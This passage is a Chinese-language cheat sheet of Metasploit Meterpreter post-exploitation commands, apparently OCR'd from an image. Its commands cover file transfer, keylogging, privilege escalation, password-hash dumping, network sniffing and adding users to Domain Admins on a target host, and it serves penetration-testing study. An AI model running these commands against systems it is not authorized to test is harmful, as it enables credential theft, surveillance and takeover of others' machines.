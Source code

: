 upload file

向目标主机上传文件

download file

从目标主机上下载文件

keyscan_start

针对远程目标主机开启键盘记录功能

keyscan_dump

存储目标主机上捕获的键盘记录

keyscan_stop

停止针对目标主机的键盘记录

getprivs

尽可能多的获取目标主机上的特权

uictl enable keyboard/mouse

接管目标主机的键盘和鼠标

background

将你当前的Meterpreter shell转为后台执行

hashdump

导出目标主机中的口令哈希值

use sniffer

加载嗅探模块

sniffer_interfaces

列出目标主机所有开放的网络接口

sniffer_dump interfaceID pcapname

在目标主机上启动嗅探

sniffer_start interfaceID pcaket-buffer

在目标主机上针对特定范围的数据包缓冲区启动嗅探

sniffer_stats interfaceID 

获取正在实施嗅探网络接口的统计数据

sniffer_stop interfaceID 

停止嗅探

add_user username password -h ip

在远程目标主机上添加一个用户

add_group_user "Domain Admins" username -h ip
